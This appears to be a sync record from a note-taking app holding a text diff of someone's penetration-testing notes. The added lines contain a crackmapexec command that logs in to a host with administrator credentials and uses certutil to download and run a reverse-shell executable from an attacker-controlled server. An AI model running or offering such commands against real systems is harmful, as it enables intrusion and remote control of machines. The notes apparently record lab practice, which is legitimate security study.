 id: 47bba763e0b24f0282beb2b6da11a1a6
parent_id: 467ba60a481e4355bfc9ca2996d5642a
item_type: 1
item_id: 675162c6268c4652933f50981ec28893
item_updated_time: 1650601820980
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"ll.exe m\"],[1,\"e\"],[0,\"terprete\"]],\"start1\":2584,\"start2\":2584,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"exe'\\\n> \\\n\"],[1,\"> crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@wsw0rd1' -x 'certutil -urlcache -f [http://192.168.119.168:5001/](http://192.168.1.2:8088/meterpreter_shell.exe)rshell.exe rshell.exe && cmd /c rshell.exe'\\\n> \\\n> \\\\# Try powershell reverse shell but it doesn't work\\\n> \\\n\"],[0,\"> crackm\"]],\"start1\":2643,\"start2\":2643,\"length1\":16,\"length2\":289}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-22T04:36:57.696Z
created_time: 2022-04-22T04:36:57.696Z
type_: 13